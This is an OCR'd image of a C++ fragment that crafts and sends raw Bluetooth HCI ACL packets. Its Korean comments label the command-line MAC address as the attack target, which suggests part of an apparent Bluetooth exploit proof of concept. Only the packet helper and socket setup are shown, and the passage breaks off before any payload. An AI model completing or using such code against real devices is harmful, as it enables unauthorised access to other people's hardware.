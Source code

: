 ```c++
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F; // BC,PB 병합


  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];
  
  /*
  ACL(Asynchronous Connection-Less) 패킷 구조
  | opcode (8) | header (32)                                   | data |
  | opcode (8) | handle (12) | PB(2) | BC(2) | data length(16) | data |
  */

  // opcode
  iv[0].iov_base = &type;
  iv[0].iov_len = 1;

  // header
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;

  // data
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  // destination bd addr : 실행인자 MAC_ADDR 로 받은 공격대상 MAC 주소
  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  // 블루투스 HCI 재실행
  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  // HCI socket 생성
  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);      // 연결 가능한 장치 중 첫번째 hci
  int hci_socket = hci_open_dev(hci_device_id); // socket 생성
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  // HCI socket 옵션 설정 - HCI_FILTER(2)
  struct hci_filter flt;        // ptypes, events를 멤버로 가지는 구조체
  hci_filter_clear(&flt);       // 0x00 으로 초기화 (memset)
  hci_filter_all_ptypes(&flt);  // 0xff 으로 초기화 (memset)
  hci_filter_all_events(&flt);  // 0xff 으로 초기화 (memset)
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
```